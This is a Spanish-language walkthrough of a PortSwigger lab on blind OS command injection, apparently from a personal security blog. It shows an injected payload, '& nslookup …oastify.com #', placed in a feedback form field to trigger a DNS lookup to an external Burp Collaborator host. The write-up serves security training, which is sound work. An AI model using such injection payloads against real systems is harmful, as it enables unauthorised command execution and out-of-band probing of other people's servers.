 ```yaml
---
title: "04 Blind OS command injection with out-of-band interaction"
collection: publications
category: portswigger
permalink: publications/Command Injection/04_Blind OS command injection with out-of-band interaction
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección de comandos de SO ciego en la función de retroalimentación.

La aplicación ejecuta un comando shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asíncrona y no tiene ningún efecto sobre la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que se pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.'
date: 2024-12-08
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind OS command injection with out-of-band interaction'
---
```


![logo]({{site.url}}/images/Command Injection/command-lab-4/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Command Injection/command-lab-4/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, explotamos la vulnerabilidad de inyección de comando de SO ciego para emitir una búsqueda DNS a Burp Collaborator.

## Analisis

En esta ocación este laboratorio no podemos redireccionar la salida del comando a otra carpeta, sino a un servidor externo. En esta ocación BurpSuite nos proporciona un "Servidor" el cual se va a redireccionar la salida del comando ejecutado.

Copiamos el servidor `nslookup` que nos proprciona

![Conf1]({{site.url}}/images/Command Injection/command-lab-4/conf1.png)

Asi que debemos inyectar el payload en la respuesta del formulario, no olvidar colocar `url enconde`

```javascript
& nslookup d0eu666xniy2ves1025dljtrzi59t1hq.oastify.com #
```

![Conf2]({{site.url}}/images/Command Injection/command-lab-4/conf2.png)


